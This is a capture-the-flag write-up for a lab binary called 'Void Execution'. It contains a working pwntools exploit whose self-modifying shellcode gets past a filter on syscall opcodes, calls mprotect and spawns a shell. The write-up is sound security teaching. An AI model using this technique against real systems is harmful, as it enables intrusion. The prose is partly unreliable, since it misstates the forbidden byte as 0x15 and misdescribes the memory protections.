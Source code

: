 ```yaml
---
title: "Void Execution"
category: Binary Exploitation
tags: 
draft: false
completedDuringEvent: true
submitted: true
flag: THM{REDACTED}
---
```

> No description.

---

Given a binary `voidexec` and `libc.so.6` file.

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  void *s; // [rsp+8h] [rbp-8h]

  setup(argc, argv, envp);
  s = mmap((void *)0xC0DE0000LL, 0x64uLL, 7, 34, -1, 0LL);
  memset(s, 0, 0x64uLL);
  puts("\nSend to void execution: ");
  read(0, s, 0x64uLL);
  puts("\nvoided!\n");
  if ( (unsigned __int8)forbidden(s) )
    exit(1);
  mprotect(s, 0x64uLL, 4);
  ((void (*)(void))s)();
  return 0;
}
```

The binary reads shellcode from the user and executes it. The shellcode is stored in a memory region that is marked as read-only. The binary then calls `mprotect` to change the memory region to read-write and then changes the memory region to read-execute. Finally, the binary calls the shellcode.

The `forbidden` function checks if the shellcode contains the bytes `0x15` or `0xCD 0x80`. If the shellcode contains these bytes, the binary exits.

```c
__int64 __fastcall forbidden(__int64 a1)
{
  unsigned __int64 i; // [rsp+10h] [rbp-10h]

  for ( i = 0LL; i <= 0x62; ++i )
  {
    if ( *(_BYTE *)(a1 + i) == 15 || *(_BYTE *)(a1 + i) == 0xCD && *(_BYTE *)(i + 1 + a1) == 0x80 )
    {
      puts("Forbidden!");
      return 1LL;
    }
  }
  return 0LL;
}
```

The idea is to write a shellcode that does not contain the forbidden bytes and execute it. So we need to write a shellcode that does not contain the bytes `0x15` or `0xCD 0x80`.

So we can write the `syscall` or `int 0x80` instructions in a different way. We can use the `inc` instruction to increment the value of the byte at the address of the instruction before the instruction executes. This way we can avoid the forbidden bytes. But the memory region is marked as read-only. So we need to change the memory region to read-write to modify the `syscall` or `int 0x80` instructions.

Since the binary is **PIE** enabled, we need to calculate the address of the `mprotect` function. To find the **PIE** base address, we need to find which register is storing some function address from the binary. So i found that the `r13` register is storing the address of the `main` function. So we can calculate the address of the `mprotect` function by subtracting the address of the `main` function from the address of the `mprotect` function. Now we can use the `lea` instruction to load the address of the `mprotect` function to the `rbx` register.

```asm
lea rbx, [r13 - main + mprotect]
```

Now we can write the shellcode to call the `mprotect` function to change the memory region to read-write and then change the memory region to read-execute. Finally, we can write the shellcode to call the `execve` syscall.

```asm
mov rdi, 0xC0DE0000
mov rsi, 0x64
mov rdx, 0x7
call rbx
```

Voila! We can now write the shellcode to call the `execve` syscall.

```py
from pwn import *

binary = './voidexec'

context.log_level = 'debug'
context.binary = binary

e = ELF(binary)
r = process(binary)
# r = remote('10.10.150.155', 9008)

shellcode = asm(f'''
    lea rbx, [r13 - {e.sym['main']} + {e.plt['mprotect']}]

    mov rdi, 0xC0DE0000
    mov rsi, 0x64
    mov rdx, 0x7
    call rbx

    mov rax, 0x3b
    mov rdi, 0x68732f6e69622f
    push rdi
    mov rdi, rsp
    xor rsi, rsi
    xor rdx, rdx

    inc byte ptr [rip + syscall]
    inc byte ptr [rip + syscall + 1]
    
syscall:
    .byte 0x0e, 0x04
''')
log.info(f'Length of shellcode: {len(shellcode)}')

r.recvuntil(b'Send to void execution: ')
r.sendline(shellcode)
r.interactive()
```

## References

- [Shellcode Challenge 3](https://cov-comsec.github.io/posts/2021_assembly_and_shellcoding_walkthrough/#solution-shellcode-challenge-3)
